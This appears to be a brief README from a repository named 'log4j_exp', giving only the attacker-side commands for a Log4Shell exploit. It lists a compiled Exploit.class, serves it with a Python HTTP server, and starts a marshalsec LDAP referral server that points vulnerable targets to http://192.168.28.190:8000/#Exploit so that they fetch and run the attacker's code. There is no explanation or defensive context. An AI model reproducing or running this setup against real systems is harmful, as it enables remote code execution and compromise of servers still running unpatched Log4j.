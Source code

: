 # log4j_exp


ls
Exploit.class

 python -m http.server 8000
 
 java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.28.190:8000/#Exploit 9999
 
 
